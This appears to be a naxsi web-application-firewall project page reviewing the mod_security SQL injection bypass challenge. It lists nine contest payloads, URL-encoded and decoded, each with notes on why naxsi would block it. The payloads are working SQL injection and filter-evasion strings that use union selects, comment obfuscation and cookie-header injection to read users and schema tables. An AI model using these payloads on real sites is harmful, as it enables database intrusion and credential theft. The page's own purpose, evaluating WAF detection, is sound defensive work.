 ### Introduction/Disclaimer

First of all, and to prevent any trolls : We're **not** saying that naxsi is better than [mod_security]( https://modsecurity.org/ ). We think that mod_security is a great project and we have a huge respect for its team.

That being said, we will present you the results of the mod_security SQLi challenge. This challenge was organized by the mod_security people, and participants had to bypass mod_security to perform SQLi on various vulnerable web sites.

As you will see, none of the attack patterns used will bypass naxsi, because naxsi isn't clever and doesn't try to interpret stuff in requests, avoiding the risk of getting bypassed by obfuscated syntax.

Last but not least, the more uncommon a request is, the more chance they have to be blocked by naxsi.

Detailed information about the mod_security challenge can be found [here]( http://blog.spiderlabs.com/2011/07/modsecurity-sql-injection-challenge-lessons-learned.html )

#### Bypass #1 : Johannes Dahse

##### Payload
```
http://www.modsecurity.org/testphp.vulnweb.com/artists.php?artist=0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
```

##### Decoded

```
http://www.modsecurity.org/testphp.vulnweb.com/artists.php?artist=0+div+1+union#foo*/*bar
select#foo
1,2,current_user
```

##### Explanation

* Multiple SQL keywords
* SQL comments
* Uncommon characters : `, #*`

#### Bypass #2 : Vladimir Vorontsov

##### Payload

```
FromDate=a1%27+or&ToDate=%3C%3Eamount+and%27
```

##### Decoded

```
FromDate=a1'+or&ToDate=<>amount+and'
```

##### Explanation
* Multiple quotes
* `<>` Signs

#### Bypass #3 : PT Research

##### Payload

```
after=1 AND (select DCount(last(username)&after=1&after=1) from users where username='ad1min')&before=d
```

##### Explanation
* Multiple SQL keywords
* Multiple parenthesis
* Multiple quotes
* Naxsi is immune to splitting attacks

#### Bypass #4 : Ahmad Maulana

##### Payload

```
ToDate=1'UNION/*!0SELECT user,2,3,4,5,6,7,8,9/*!0from/*!0mysql.user/*-
```

##### Explanation
* Multiple SQL keywords
* SQL comments
* Multiple quotes
* Uncommon characters : `, !`

#### Bypass #5 : Travis Lee

##### Payload

```
Cookie: ASP.NET_SessionId=c0tx0o455d0b10ylsdr03m55; amSessionId=14408158863; amUserInfo=UserName=YWRtaW4=&
Password=JyBvciAnMSc9JzEnLS0=; amUserId=1 union select username,password,3,4 from users
```

##### Explanation
* Multiple SQL keywords
* Multiple commas
* This one is really interesting, as mod_security was bypassed, not because of the pattern, but because of its location (Cookie Headers)

#### Bypass #6 : Roberto Salgado

##### Payload

```
http://www.modsecurity.org/testphp.vulnweb.com/artists.php?artist=-
2%20div%201%20union%20all%23yeaah%0A%23yeah%20babc%0A%23fdsafdsafa%23fafsfaf%23%23yea%0A
%23yeah%20babc%0A%23fdsafdsafa%23fafsfaf%23%23yeaah%0A%23yeah%20babc%0A%23fdsafdsafa%23f
afsfaf%23%23yea%0A%23yeah%20babc%0A%23fdsafdsafa%23fafsfaf%23%23yeaah%0A%23yeah%20babc%0
A%23fdsafdsafa%23fafsfaf%23%23yea...
truncated
...3fafsfaaf%23fafsfaaf%23fafsfaaf%23fafsfaaf%
0Aselect%200x00,%200x41%20like/*!31337table_name*/,3%20from%20information_schema.tables%
20limit%201
```

##### Decoded

```
2 div 1 union all#yeaah
#yeah babc
#fdsafdsafa#fafsfaf##yea
#yeah babc
#fdsafdsafa#fafsfaf##yeaah...
truncated
...
like/*!31337table_name*/,3 from information_schema.tables...
```

##### Explanation
* Multiple SQL keywords
* SQL comments
* uncommon characters : `# , !`

#### Bypass #7 : Sqlmap Developers
 
##### Payload

```
http://www.modsecurity.org/testphp.vulnweb.com/artists.php?artist=%40%40new%20union%23sqlmapsqlmap...%0Aselect%201,2,database%23sqlmap%0A%28%29 
```

##### Decoded

``` 
http://www.modsecurity.org/testphp.vulnweb.com/artists.php?artist=@@new union#sqlmapsqlmap...
select 1,2,database#sqlmap
() 
```

###### Explanation
* Multiple SQL keywords
* Uncommon characters : `.. # , ()`

#### Bypass #8 : HackPlayers

###### Payload

```
http://www.modsecurity.org/testphp.vulnweb.com/artists.php?artist=-
2%20div%201%20union%20all%23hack%0A%23hpys%20player%0A%23fabuloso%23great%0A%23hpys%20pl
ayer%0A%23fabuloso%23modsec%0A%23hpys%20player%0A%23fabuloso%23great%0A%23hpys%20player%
0A%23fabuloso%23modsec%0A%23h...
truncated
...23hpys%20player%0A%23fabuloso%23great%23%0A%23fabuloso%23great%23%0Aselect%200x00%2C%200
x41%20not%20like%2F*%2100000table_name*%2F%2C3%20from%20information_schema.tables%20limi
t%201
```

##### Decoded

```
-2 div 1 union all#hack
#hpys player
#fabuloso#great...
truncated
...
select 0x00, 0x41 not like/*!00000table_name*/,3 from information_schema.tables limit 1
```

##### Explanation

* Multiple SQL keywords
* SQL comments
* Uncommon characters : `# , ! `

#### Bypass #9 : Georgi Geshev
 
##### Payload

```
http://www.modsecurity.org/testphp.vulnweb.com/listproducts.php?artist=1%0bAND(SELECT%0b1%20FROM%20mysql.x)
```

##### Explanation
* Multiple SQL keywords


### Final WORD
All those tests where realized on a 'out of the box' naxsi, we I did no customization nor any modifications whatsoever.
